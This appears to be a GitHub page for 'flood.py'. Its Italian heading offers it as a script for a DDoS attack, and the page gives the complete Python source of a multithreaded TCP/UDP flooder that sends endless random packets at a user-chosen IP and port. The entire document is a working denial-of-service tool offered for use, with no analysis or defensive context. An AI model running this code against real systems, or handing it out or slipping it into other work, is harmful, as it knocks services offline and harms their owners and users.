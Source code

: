 # flood.py
Installa flood.py script per attacco ddos





#!/usr/bin/env python3
#Code by LeeOn123
import argparse
import random
import socket
import threading

ap = argparse.ArgumentParser()
ap.add_argument("-i", "--ip", required=True, type=str, help="Host ip")
ap.add_argument("-p", "--port", required=True, type=int, help="Port")
ap.add_argument("-c", "--choice", type=str, default="y", help="UDP(y/n)")
ap.add_argument("-t", "--times", type=int, default=50000, help="Packets per one connection")
ap.add_argument("-th", "--threads", type=int, default=5, help="Threads")
args = vars(ap.parse_args())

print("--> C0de By Lee0n123 <--")
print("#-- TCP/UDP FLOOD --#")
ip = args['ip']
port = args['port']
choice = args['choice']
times = args['times']
threads = args['threads']

def run():
	data = random._urandom(1024)
	i = random.choice(("[*]","[!]","[#]"))
	while True:
		try:
			s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
			addr = (str(ip),int(port))
			for x in range(times):
				s.sendto(data,addr)
			print(i +" Sent!!!")
		except:
			print("[!] Error!!!")

def run2():
	data = random._urandom(16)
	i = random.choice(("[*]","[!]","[#]"))
	while True:
		try:
			s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
			s.connect((ip,port))
			s.send(data)
			for x in range(times):
				s.send(data)
			print(i +" Sent!!!")
		except:
			s.close()
			print("[*] Error")

for y in range(threads):
	if choice == 'y':
		th = threading.Thread(target = run)
		th.start()
	else:
		th = threading.Thread(target = run2)
		th.start()
